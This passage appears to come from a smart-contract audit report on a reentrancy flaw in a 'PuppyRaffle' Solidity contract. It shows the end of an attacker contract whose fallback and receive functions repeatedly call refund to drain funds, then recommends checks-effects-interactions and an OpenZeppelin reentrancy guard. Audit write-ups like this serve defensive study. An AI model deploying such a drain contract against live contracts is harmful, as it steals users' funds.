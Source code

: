 ```solidity
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance < entranceFee) return;
        puppyRaffle.refund(attackerIndex);
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}
```


**Recommended Mitigation:**

To mitigate the reentrancy vulnerability, consider the following approaches:

**Use the "checks-effects-interactions" pattern:**  
   This pattern ensures that all checks and state updates (effects) are performed before making any external calls (such as transferring funds). This prevents an attacker from re-entering the contract during an external call. Ensure that the state is updated before transferring funds to external addresses.

**Add a reentrancy guard modifier:**  

Use a reentrancy guard to prevent recursive calls into the contract. You can use OpenZeppelin's `ReentrancyGuard` modifier to prevent reentrancy attacks.

Example:
```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract PuppyRaffle is ReentrancyGuard {
    function refund(uint256 playerIndex) public nonReentrant {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);
        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
}
```
